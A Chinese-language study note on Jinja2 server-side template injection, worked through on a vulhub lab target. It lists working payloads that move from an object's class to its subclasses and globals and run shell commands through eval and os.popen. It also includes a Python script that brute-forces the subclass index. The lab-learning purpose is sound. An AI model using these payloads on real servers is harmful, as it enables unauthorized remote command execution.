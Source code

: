 ```yaml
---
title: 笔记
categories: [笔记]
comments: true
---
```

# SSTI笔记

## 前言

之前对于SSTI的payload构造不是很了解，今天打算重新学一下，了解payload的构造方法

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 利用点

\_\_class\__

返回对象所属类

![image-20201213174236634](../assets/img/text/image-20201213174236634.png)

\__bases\_\_

以元组的形式返回一个类所继承的类

![image-20201213174528533](../assets/img/text/image-20201213174528533.png)

\__mro__

以元组形式返回类的解析顺序

![image-20201213174614261](../assets/img/text/image-20201213174614261.png)

\__subclasses__()

返回类下的所有子类

![image-20201213174925233](../assets/img/text/image-20201213174925233.png)

\__init__

获取每个类的\__init\_\_函数

funtions.\__globals__

用于获取function所处空间下可使用的module、方法以及所有变量。

![image-20201213175305093](../assets/img/text/image-20201213175305093.png)

## 基本注入思路

利用\_\_class\_\_拿到对应的类、利用\__base\_\_拿到基类、用\_\_subclasses\_\_()拿到可利用的类，尝试利用这些类进行getshell

## 实例

靶场来源于vulhub docker搭建的靶场

访问靶场

![image-20201213180017624](../assets/img/text/image-20201213180017624.png)

尝试检测是否存在注入http://192.168.35.128:8000/?name={{123*2}}

![image-20201213180044688](../assets/img/text/image-20201213180044688.png)

发现得到的结果正好是算术表达式的结果。确定存在注入

输入payload尝试获取类,需要注意的是要打开F12，不然是看不见解析出来的结果的，因为得到的是<class 'object'>，html会将他识别为标签解析，所以在网页上无法直接显示

http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_}}

![image-20201213180220233](../assets/img/text/image-20201213180220233.png)

获取子类http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_[0].\_\_subclasses\_\_()}}

![image-20201213180534161](../assets/img/text/image-20201213180534161.png)





然后如果在html里找太麻烦了，我懒得看，所以可以换一种方式，利用执行语句的方式直接找到函数之后进行命令执行

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

```

![image-20201213193534127](../assets/img/text/image-20201213193534127.png)

## 后记

之前一直在尝试用popen也就是固定的位置，本机测出来的128索引，但是一直失败，不知道为啥，然后去靶机里面查看了才知道是位置不同，踩了好久的坑。。最后测出来popen函数的位置在117

```
{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
```

![image-20201213193856764](../assets/img/text/image-20201213193856764.png)

其实也可以利用python写一个简单的脚本遍历这个参数

```python
import requests
for i in range(0,1000):

    url = 'http://192.168.35.128:8000/?name={{"".__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__.popen(\'whoami\').read()}}'% i
    response = requests.get(url)
    if response.status_code == 200:
        print(i)
        break
```

![image-20201213194343290](../assets/img/text/image-20201213194343290.png)

因为错误的时候服务器是返回的500错误码，所以我直接利用200进行判断了，可以根据具体情况修改。